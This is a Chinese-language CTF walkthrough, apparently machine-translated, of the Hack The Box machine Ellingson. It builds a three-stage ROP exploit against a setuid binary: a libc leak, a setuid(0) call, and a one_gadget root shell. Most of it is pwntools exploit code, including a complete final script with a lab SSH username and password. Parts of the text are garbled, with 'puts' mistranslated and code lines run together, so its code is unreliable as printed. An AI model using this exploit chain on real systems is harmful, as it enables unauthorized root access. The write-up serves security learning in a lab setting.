

请注意，我能够泄漏地址，但输出不一致。然后，我对脚本进行了一些修改，以正确泄漏内存地址并添加一些日志记录:

```
leak_puts= p.recvline().strip().ljust(8,"\x00")
log.success("Length of the leaked puts = " + str(len(leak_puts)))
log.success("Leaked puts@LIBC " + str(leak_puts))
```



我们的漏洞脚本现在看起来像这样

```
#Stage 1 - Memory Leak                                                                                                                                                    
log.success("Starting first stage:")                                                                                                                                      
plt_put = p64(0x401050)                                                                                                                                                   
got_put = p64(0x404028)                                                                                                                                                   
pop_rdi = p64(0x40179b)                                                                                                                                                   
junk = "A" *136payload = junk + pop_rdi + got_put + plt_put
p.sendline(payload)p.recvline()
p.recvline()leak_puts= p.recvline().strip().ljust(8,"\x00")
log.success("Length of the leaked puts = " + str(len(leak_puts)))
log.success("Leaked puts@LIBC " + str(leak_puts))
leak_puts = u64(leak_puts)
```

当我运行它时:



我可以泄漏 libc 内部 puts 的地址，但是进程崩溃了。我现在需要调用 main，这样我就不会使程序崩溃，使泄漏的地址变得无用，因为下次我执行程序时，它会有一个不同的地址。我得到了 main 的地址:



```
plt_main = 0x401619
```

我将它添加到漏洞利用代码中，因此在泄漏地址后我调用 main:

```
from pwn import *#context(terminal=['tmux', 'new-window'])
p = process('./garbage')
#p = gdb.debug('./garbage', 'b main')
context(os="linux", arch="amd64")
#context.log_level = 'DEBUG'#Stage 1 - Memory Leak
log.success("Starting first stage:")
plt_main = p64(0x401619)
plt_put = p64(0x401050)
got_put = p64(0x404028)
pop_rdi = p64(0x40179b)
junk = "A" *136payload = junk + pop_rdi + got_put + plt_put + plt_main
p.sendline(payload)p.recvline()
p.recvline()leak_puts= p.recvline().strip().ljust(8,"\x00")
#log.success("Length of the leaked puts = " + str(len(leak_puts)))
log.success("Leaked puts@LIBC " + str(leak_puts))
leak_puts = u64(leak_puts)
```

当我运行这个脚本时，我可以再次启动二进制文件:



## exploit.py(第二部分)

我需要知道的是 Ellingson box 的 libc.so.6 中的内存地址，以计算偏移量。我将它复制到我的本地机器上:



然后我检查看跌期权的地址:



```
libc_put = 0x809c0
```

我还需要计算偏移量:

```
offset = (leak_puts - libc_put)
```

因为我需要提升特权，并且二进制文件设置了 setuid 位，所以我需要调用 setuid:



```
setuid = p64(offset + libc_setuid)
```

所以阶段 2 看起来像这样，我首先设置 setuid:

```
#Stage 2
pop_rdi = p64(0x40179b)
libc_put = 0x0809c0
libc_sys = 0x04f440
libc_sh =  0x1b3e9a
libc_setuid = 0x0e5970offset = leak_puts - libc_put
sys = p64(offset + libc_sys)
sh = p64(offset + libc_sh)
setuid = p64(offset + libc_setuid)payload = junk + pop_rdi + p64(0x0) + setuid + plt_main
p.sendline(payload)
```

## exploit.py(第 3 部分)

我现在添加可以获得 shell 的部分，因为我已经调用了 setuid 部分。我使用工具 one [one_gadget](https://github.com/david942j/one_gadget) 找到/bin/sh 的地址。



```
#Stage 3
log.success("Elevate privilege success")
log.success("Check if you have a shell!")payload = junk + one_gadget
p.sendline(payload)
p.interactive()
```

当我运行漏洞时，我获得了 root 访问权限，现在可以读取 root.txt:



正在读取 root.txt:

```
# $ cat root.txt
**1cc73a448021ea...**
```

最终漏洞代码:

```
from pwn import *host = "10.10.10.139"
user="margo"
password="iamgod$08"s=ssh(user=user,host=host,password=password)#context(terminal=['tmux', 'new-window'])
p = s.process('/usr/bin/garbage')
#p = gdb.debug('./garbage', 'b main')
context(os="linux", arch="amd64")
#context.log_level = 'DEBUG'#Stage 1 - Memory Leak
log.success("Running 1st stage:")
plt_main = p64(0x401619)
plt_put = p64(0x401050)
got_put = p64(0x404028)
pop_rdi = p64(0x40179b)
junk = "A" *136payload = junk + pop_rdi + got_put + plt_put + plt_main
p.sendline(payload)p.recvline()
p.recvline()leak_puts= p.recvline().strip().ljust(8,"\x00")
log.success("Length of the leaked puts = " + str(len(leak_puts)))
log.success("Leaked puts@LIBC " + str(leak_puts))
leak_puts = u64(leak_puts)#Stage 2
pop_rdi = p64(0x40179b)
libc_put = 0x0809c0
libc_sys = 0x04f440
libc_sh =  0x1b3e9a
libc_setuid = 0x0e5970offset = leak_puts - libc_put
sys = p64(offset + libc_sys)
sh = p64(offset + libc_sh)
setuid = p64(offset + libc_setuid)
one_gadget = p64(offset + 0x4f2c5) 
payload = junk + pop_rdi + p64(0x0) + setuid + plt_main
p.sendline(payload)#Stage 3
log.success("Elevate privilege success")
log.success("Check if you have a shell!")payload = junk + one_gadget
p.sendline(payload)
p.interactive()
```

我还检查了每个用户的主目录下的有趣文件，但除了/home/theplague 下的这个，基本上是计算机安全官就 Margo 的密码训斥 Hal:

```
# $ cat mbox
From theplague@ellingson  Sun Feb 10 18:28:29 2019
Return-Path: <theplague@ellingson>
X-Original-To: hal@localhost
Delivered-To: hal@localhost
Received: by ellingson.localdomain (Postfix, from userid 1000)
        id 913D4E094C; Sun, 10 Feb 2019 18:28:29 +0000 (UTC)
Subject: Get Your Users Under Control!
To: <hal@localhost>
X-Mailer: mail (GNU Mailutils 3.4)
Message-Id: <20190210182829.913D4E094C@ellingson.localdomain>
Date: Sun, 10 Feb 2019 18:28:29 +0000 (UTC)
From: Eugene Belford <theplague@ellingson>Hal,
You hapless technoweenie, next time you see Margo tell her to change her password! Tell her to stop using varients of 'god' in here password!!! So no god, g0d, aG0D...she doesn't seem to get it despite the countless memos.
```

这就是我如何在黑盒子里做盒子 Ellingson。我希望你能从这次演练中学到一些东西。干杯！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)